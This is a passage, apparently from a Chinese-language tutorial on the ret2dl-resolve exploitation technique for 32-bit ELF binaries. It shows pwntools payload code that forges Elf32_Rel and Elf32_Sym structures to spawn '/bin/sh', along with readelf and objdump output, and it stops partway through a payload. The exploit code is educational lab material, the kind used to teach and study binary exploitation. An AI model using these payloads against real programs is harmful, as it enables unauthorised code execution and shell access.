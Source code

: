 ```python
payload_4 += p32(reloc_index)
payload_4 += "AAAA"
payload_4 += p32(1)
payload_4 += p32(base_addr + 80)
payload_4 += p32(len("/bin/sh"))
payload_4 += fake_reloc
payload_4 += "A" * (80 - len(payload_4))
payload_4 += "/bin/sh\x00"
payload_4 += "A" * (100 - len(payload_4))

io.sendline(payload_4)
print io.recv()
```
另外讲一讲 Elf32_Rel 值的计算方法如下，我们下面会得用到：
```C
#define ELF32_R_SYM(val)        ((val) >> 8)
#define ELF32_R_TYPE(val)       ((val) & 0xff)
#define ELF32_R_INFO(sym, type)     (((sym) << 8) + ((type) & 0xff))
```
- `ELF32_R_SYM(0x707) = (0x707 >> 8) = 0x7`，即 `.dynsym` 的第 7 行
- `ELF32_R_TYPE(0x707) = (0x707 & 0xff) = 0x7`，即 `#define R_386_JMP_SLOT 7 /* Create PLT entry */`
- `ELF32_R_INFO(0x7, 0x7) = (((0x7 << 8) + ((0x7) & 0xff)) = 0x707`，即 r_info

这一次，伪造位于 `.dynsym` 段的结构体 Elf32_Sym，原结构体如下：
```C
typedef struct
{
  Elf32_Word    st_name;        /* Symbol name (string tbl index) */
  Elf32_Addr    st_value;       /* Symbol value */
  Elf32_Word    st_size;        /* Symbol size */
  unsigned char st_info;        /* Symbol type and binding */
  unsigned char st_other;       /* Symbol visibility */
  Elf32_Section st_shndx;       /* Section index */
} Elf32_Sym;
```
```
$ readelf -s a.out | grep write
     7: 00000000     0 FUNC    GLOBAL DEFAULT  UND write@GLIBC_2.0 (2)
```
转储 `.dynsym` 段并找到第 7 行：
```
$ objdump -s -j .dynsym a.out 
...
 804823c 4c000000 00000000 00000000 12000000  L...............
...
```
其中最重要的是 `st_name` 和 `st_info`，分别为 `0x4c` 和 `0x12`。构造 payload 如下：
```python
reloc_index = base_addr + 28 - rel_plt
fake_sym_addr = base_addr + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf) # since the size of Elf32_Sym is 0x10
fake_sym_addr = fake_sym_addr + align

r_sym = (fake_sym_addr - dynsym) / 0x10  # calcute the symbol index since the size of Elf32_Sym
r_type = 0x7    # R_386_JMP_SLOT -> Create PLT entry
r_info = (r_sym << 8) + (r_type & 0xff) # ELF32_R_INFO(sym, type) = (((sym) << 8) + ((type) & 0xff))
fake_reloc = p32(write_got) + p32(r_info)

st_name = 0x4c
st_info = 0x12
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(st_info)

payload_5  = "AAAA"
payload_5 += p32(plt_0)
```